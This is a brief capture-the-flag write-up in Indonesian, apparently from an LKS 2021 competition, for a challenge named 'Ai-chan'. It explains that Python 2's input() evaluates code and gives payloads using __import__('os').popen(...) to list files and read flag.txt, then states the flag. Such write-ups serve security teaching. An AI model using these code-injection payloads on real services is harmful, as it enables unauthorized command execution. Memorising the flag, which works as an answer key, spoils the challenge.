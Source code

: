 ## Judul Soal
Ai-chan

## Deskripsi Soal

> Pusing berhitung? tenang saja Ai-chan akan membantumu

---
## Penjelasan Penyelesaian Soal

- rce pada input python 2
- input pada python 2 dapat mengevaluasi kode python
- masukkan payload untuk menjalankan RCE
- kita bisa memasukkan `__import__('os')` untuk menggantikan `import os`
- `__import__('os').popen('ls').read()`
- setelah itu akan ada file flag.txt
- `__import__('os').popen('cat flag.txt').read()`

## Flag
LKS2021{thanks_for_calling_me_back}